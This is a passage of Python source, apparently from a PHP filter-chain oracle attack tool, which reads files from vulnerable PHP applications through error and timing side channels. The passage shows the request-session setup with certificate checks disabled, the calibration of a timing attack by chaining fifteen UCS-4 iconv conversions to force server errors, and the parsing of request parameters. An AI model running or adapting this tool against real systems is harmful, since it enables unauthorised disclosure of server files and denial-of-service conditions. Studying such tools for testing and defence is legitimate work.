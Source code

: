 ```bash
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy :
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False
        
    """
    Instantiates a requests session for optimization
    """
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False

    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32]*15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
    Used to parse the option parameter sent by the user
    """
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter: # Parse array elements
            
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
```